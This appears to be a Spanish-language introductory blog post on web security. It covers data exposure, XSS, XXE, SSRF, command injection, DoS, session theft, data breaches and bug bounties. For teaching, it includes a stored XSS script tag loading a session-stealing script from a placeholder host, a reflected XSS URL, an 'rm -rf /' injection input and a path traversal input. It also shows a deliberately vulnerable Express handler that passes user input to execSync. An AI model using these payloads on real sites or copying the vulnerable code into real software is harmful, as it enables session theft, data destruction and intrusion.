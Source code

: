 ```yaml
---
title: "Seguridad en la web"
description: La seguridad web es la práctica de implementar medidas para proteger un sitio web haciendolo más díficil de vulnerar.
date: 2021-04-15
cover: https://res.cloudinary.com/marcomadera/image/upload/v1618515494/Blog/seguridad-web/security_2_prgizu.png
author: Marco Madera
tags:
  - Seguridad
  - Web
---
```


![Alerta mimic site a la derecha](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_271,w_319/v1618256076/Blog/seguridad-web/Ingenier%C3%ADa_social_yav5tv.png)

Te llega un correo electrónico que parece proceder de tu banco u otro servicio popular de internet como Google. Te solicita que confirmes información sensible sobre tu cuenta. El correo electrónico parece legítimo, ninguna señal de alerta del servicio de que el correo pueda ser peligroso o spam. El link parece muy realista tiene HTTPS, entonces das clic al link para saber más. Entras a la página, pero no carga porque te interrumpe una alerta del sitio y te das cuenta de que pudiste ser víctima de phishing.

## ¿Qué es la seguridad Web?

La seguridad web es la práctica de implementar medidas para proteger un sitio web haciéndolo más difícil de vulnerar. Es necesaria para proteger un sitio web contra el robo de datos y mantener una reputación con tus usuarios.

Existen muchas razones para que tu sitio web sea vulnerable, de las cuales vamos a poner unas cuantas sobre la mesa.

## Manejo de datos

La validación de datos es el paso que verifica las entradas de usuario. En este paso se asegura que los datos sean los requeridos para que puedan ser procesados correctamente y se ingresen en una base de datos.

Si no se hace correctamente este paso se pueden tener datos corruptos. Por ejemplo en tu lista de canciones favoritas de Spotify puede que tengas datos nulos o tener un usuario de Twitter sin nombre de usuario como es el siguiente caso.

<tweet id="1379691085514047490"></tweet>

<tweet id="1396196807173099524" caption="[Actualización: 22 Mayo 21] A partir de está fecha se le asignó un nombre de usuario, lo cual ya pasaba en las aplicaciones móbiles cambiando cada cierto tiempo."></tweet>

Un mal manejo de datos es una vulnerabilidad potencial. Enviar datos que no son necesarios al _frontend_ puede ser un error por ejemplo si tienes un examen con la siguiente estructura.

```json
{
  "test": [
    {
      "question": "¿Qué url es más segura?",
      "anwers": [
        {
          "text": "https://googIe.com",
          "correct": true
        },
        {
          "text": "http://www.google.com",
          "correct": false
        }
      ]
    }
  ]
}
```

<note type="danger">Estos datos en el lado del cliente (_frontend_) pueden ser expuestos para revelar las respuestas correctas.</note>

<note type="tip">

- Un mejor manejo podría ser que cada vez el usuario responda una pregunta se haga una petición al servidor para saber si es acertada la respuesta del usuario y actuar conforme al resultado.
- Si fueran números de tarjetas de crédito puede que no sea necesario enviar el número completo, sino los últimos 4 dígitos por si el usuario decide revelarlo o como le sea conveniente.

</note>

## Cross-site scripting (XSS)

Tal vez te suene si has visto una alerta en algunos sitios web en la consola.

![Alerta xss](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_227,w_705/v1618249299/Blog/seguridad-web/self-xss_axzj76.png)

Esta es una vulnerabilidad de XSS y ocurre cuando se inyecta código en el cliente. Existe dos tipos: persistente y no persistente.

Imagina que la sección de comentarios de este post aceptara etiquetas HTML como la de `<script>`. Se pudiera comentar algo como lo siguiente: `<script src="http://sitioweb/robarsesiones.js">`. Entonces el script se ejecutará cada vez que alguien abra el post. Este es un tipo de ataque persistente porque está inyectado de manera permanente en el sitio web.

Un ejemplo no persistente sería si al tener un buscador no validar la query, permitir que la siguiente URL `https://marcomadera.com/search?q=<script%20type='application/javascript'>alert('xss');</script>` ejecute el código.

El siguiente ejemplo de crear un tweet que se hace retweet cada vez que aparece en pantalla, sería persistente en cuanto aparezca en el _feed_ de una persona haría retweet por si solo.

<youtube id="zv0kZKC6GAM"></youtube>

## XML External Entity (XXE)

Un ataque de entidades externas es el tipo de ataque que abusa del procesador de xml.

> Este ataque puede conducir a la divulgación de datos confidenciales, denegación de servicio, falsificación de solicitudes del lado del servidor, escaneo de puertos desde la perspectiva de la máquina donde se encuentra el analizador y otros impactos del sistema. [Wikipedia](https://en.wikipedia.org/wiki/XML_external_entity_attack)

En el sitio _secrets of app security_ hay un ejemplo claro de un ataque con saml para interceptar solicitudes y remplazarla con tu código [Ataque XXE](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html).

Puede que recuerdes el mensaje del punto negro de WhatsApp y iMessage. Este es un ataque de este tipo que tenía oculto múltiples entidades `&lrm;` que cambian la dirección del texto y que el procesador de xml no podía soportar. Otro ataque similar a este es el llamado [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) que usa entidades `&lol;`.

<tweet id="994230605859651584" caption="El mensaje contenía multiples entidades de dirección del texto &lrm, que sobrecargaban la memoría y hacía que la app dejará de responder" ></tweet>

## Server-side request forgery (SSRF)

En este tipo de ataque el atacador abusa de la funcionalidad del servidor para utilizar los recursos internos de este.

En una situación normal el _frontend_ de una tienda puede hacer llamadas al servidor para saber si un producto está disponible `http://storeapi.api/product/check`, el atacante hace peticiones al servidor modificando ese _endpoint_, por ejemplo al mismo `http://localhost/admin` abusando de la confianza.

<videogif title="Server Request" src="https://res.cloudinary.com/marcomadera/video/upload/v1618513408/Blog/seguridad-web/server_clic_twfhas.mp4"></videogif>

## Inyección de comandos

Un ataque de inyección de comandos puede ocurrir porque el servidor no valida el input del usuario antes de usarlo en la línea de comandos.

El siguiente ejemplo es un lector de archivos vulnerable que devuelve el contenido del archivo, el usuario puede insertar algo como `"filename.pdf rm -rf /"` y borrar el contenido del servidor entero o dirigirse a una ruta `"../passwords"` provocando un ataque transversal de directorio.

```javascript
app.get("/viewer", (req, res) => {
  const { filename } = req.query;
  try {
    const stdout = childProcess.execSync("cat folder/" + filename);
    res.send(stdout.toString());
  } catch (err) {
    res.send(err.toString());
  }
});
```

## Ataque de denegación de servicio (DoS)

El objetivo de este ataque es la sobrecarga de los recursos del sistema para que sea inaccesible a los usuarios. La manera en que funciona es que satura los puertos con más datos de los que puede soportar, entonces al no poder con tantas solicitudes deniega el acceso a los demás usuarios.

Estos ataques son comunes por su facilidad de explotar. Existen servicios como Google Cloud Armor y CloudFlare para proteger el sitio web.

## Robo de sesión

Esta explotación es para un obtener acceso no autorizado a información o servicios regularmente teniendo acceso a las cookies y robándolas para así autenticarse.

<youtube id="UR_i5XSAKrg" ></tweet>

## Filtración de datos

Este mes se puso a disposición para descargar datos de más de 500 millones de usuarios de Facebook, los datos se obtuvieron explotando una vulnerabilidad.

La legislación mexicana obliga a las empresas que tratan con datos personales, a notificar vulneraciones de los datos de los titulares.

> Las vulneraciones de seguridad ocurridas en cualquier fase del tratamiento que afecten de forma significativa los derechos patrimoniales o morales de los titulares, serán informadas de forma inmediata por el responsable al titular, a fin de que este último pueda tomar las medidas correspondientes a la defensa de sus derechos [Artículo 20 - Ley federal de protección de datos personales en posesión de los particulares](http://www.diputados.gob.mx/LeyesBiblio/pdf/LFPDPPP.pdf)

Así como en esta vulnerabilidad mis datos se han visto comprometidos en otras 6 empresas como Bookmate, Nitro, Wattpad y YouNow. De ninguna he tenido ningún aviso para tomar alguna precaución. Por suerte existen páginas como [haveibeenpwned](https://haveibeenpwned.com/) donde te puedes enterar si has sido víctima de estas vulneraciones.

Otra filtración reciente fue sobre el funcionamiento del navegador de Brave en modo privado con Tor. El funcionamiento es que oculta tu identidad al navegar, pero el navegador enviaba las direcciones que visitabas al proveedor DNS en lugar de enviarlo a los servidores de Tor.

<tweet id="1362737949872431108" ></tweet>

## Programas de recompensas

Algunas empresas tienen programas de recompensas para quienes encuentren vulnerabilidades en sus servicios.

- [Microsoft](https://www.microsoft.com/en-us/msrc/bounty-microsoft-identity?rtc=1)
- [Facebook](https://www.facebook.com/whitehat)
- [Google](https://www.google.com/about/appsecurity/reward-program/)

<tweet id="1366767274720329729" ></tweet>

## Conclusión

Los riesgos en la seguridad web se pueden presentar en diferentes formas. Estos cambian rápidamente y se requiere revisar continuamente. Esta es una práctica continua durante todo el proceso donde se deben de mantener buenas prácticas de seguridad, actualizar librerias, analizar cómo mejorar los canales de desarrollo automatizando la seguridad para que no retrase el proyecto en desarrollo.
